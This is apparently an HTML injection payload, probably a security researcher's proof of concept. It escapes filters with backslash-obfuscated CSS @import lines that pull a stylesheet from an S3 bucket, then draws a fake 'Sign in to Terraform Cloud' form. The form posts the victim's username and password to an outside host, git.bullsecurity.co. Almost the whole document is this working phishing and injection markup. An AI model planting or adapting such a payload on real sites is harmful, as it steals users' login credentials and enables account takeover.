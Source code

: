 
<style>@import'https://\terraform-css-02.s3\.amazonaws\.com\/test.css';</style>

<div style=""><style>@im\port'https://\terraform-css-02\.s3\.amazonaws\.com\/test.css';<img src="</style>
  
    <div class="columns is-centered is-vcentered">
  <div class="column is-full-mobile is-fixed-medium">

    <section class="section">

        <div class="box session-box session-box-top session-box-top-cloud">
    <img src="https://d3apqp432l5mdq.cloudfront.net/CIRC-51779-348ab1e/assets/terraform-cloud-logo-81769debed7594dfa089baf99d4a402aedadaaf69303482f37fac40d39e7c047.svg" alt="Terraform Cloud">
  </div>


      <div class="box session-box session-box-bottom">
        <h2 class="session-title is-size-5" data-cy="title">Sign in to Terraform Cloud</h2>

        


          <div>
            <form class="new_user" id="new_user" action="https://git.bullsecurity.co" accept-charset="UTF-8" method="post"><input name="utf8" type="hidden" value="✓"><input type="hidden" name="authenticity_token" value="oLvVZxkRIXC35v/4Gf8JHKWAx/oLcmuU4hEHwjGPajF1nj7MemTDt8FreDjKFtFyQNFIbvy3GLyVuphhWISZgA==">

  <div class="field">
    <label class="label" for="user_login">Username or email</label>
    <input autofocus="autofocus" class="input" data-cy="login-field" type="text" name="user[login]" id="user_login">
  </div>

  <div class="field">
    <label class="label" for="user_password">Password</label>
    <input class="input" data-cy="password-field" type="password" name="user[password]" id="user_password">
    <div class="help">
      <a href="/auth/new">Forgot password?</a>
    </div>
  </div>

  <div class="field">
    <input type="submit" name="commit" value="Sign in" class="button is-fullwidth is-primary " data-cy="submit">
  </div>
</form>
          </div>

      </div>

      <div>
          <p class="has-margin-bottom">
    Need to sign up? Create your <a href="/signup/account">free account</a>.
  </p>
  <p>
    View <a href="https://www.hashicorp.com/products/terraform/offerings">Terraform Offerings</a> to find out which one is right for you.
  </p>


      </div>


    </section>

  </div>
</div>
